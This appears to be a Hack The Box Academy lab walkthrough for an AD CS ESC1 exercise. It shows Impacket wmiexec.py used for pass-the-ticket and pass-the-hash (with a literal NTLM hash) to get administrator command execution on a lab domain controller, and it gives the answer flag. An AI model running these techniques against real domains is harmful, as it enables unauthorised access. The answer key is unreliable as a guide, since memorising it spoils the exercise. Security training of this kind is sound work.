 ### Question 2

#### "What's the value of the flag file at C:\Users\Administrator\Desktop\flag.txt?"

From the previous question, students have attained the TGT for the `Administrator` user; therefore, using `wmiexec.py`, they need to `pass-the-ticket` to gain remote code execution on `LAB-DC.lab.local`:

Code: shell

```shell
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
lab\administrator
```

When reading the contents of the file `C:\Users\Administrator\Desktop\flag.txt`, students will attain the flag `HTB{ESC1_4T7ACK}`:

Code: cmd

```cmd
more "C:\Users\Administrator\Desktop\flag.txt"
```

```cmd-session
C:\>more "C:\Users\Administrator\Desktop\flag.txt"

HTB{ESC1_4T7ACK}
```

Alternatively, students can `pass-the-hash` `2b576acbe6bcfda7294d6bd18041b8fe` with `wmiexec.py` and exfiltrate the contents of the file `C:\Users\Administrator\Desktop\flag.txt` directly:

Code: shell

```shell
wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\Administrator\Desktop\flag.txt"
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\Administrator\Desktop\flag.txt"

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
HTB{ESC1_4T7ACK}
```

